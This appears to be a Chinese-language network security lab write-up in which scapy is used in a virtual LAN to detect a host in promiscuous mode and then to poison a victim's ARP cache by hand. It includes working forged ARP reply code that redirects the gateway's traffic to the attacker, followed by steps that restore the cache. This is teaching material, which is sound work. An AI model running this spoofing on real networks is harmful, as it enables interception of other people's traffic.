








# 实验

## 网络拓扑

- 攻击者主机:
  - 08:00:27:d5:a6:c7 / eth0
  - 172.16.111.147
- 受害者主机:
  - 08:00:27:97:0f:7c / eth0
  - 172.16.111.137
- 网关:
  - 08:00:27:85:88:54 / enp0s9
  - 172.16.111.1

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```



## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```


```bash
# 在攻击者主机上开启 scapy
sudo scapy
```



```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.137")
```



```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```



```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.137")
```


```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```


## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```



```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
gw_mac
```


```python

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.137
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.137", hwdst="08:00:27:d5:a6:c7")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```



此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```


回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:85:88:54", pdst="172.16.111.137", hwdst="08:00:27:97:0f:7c")
sendp(restorepkt1, count=100, inter=0.2)
```



此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

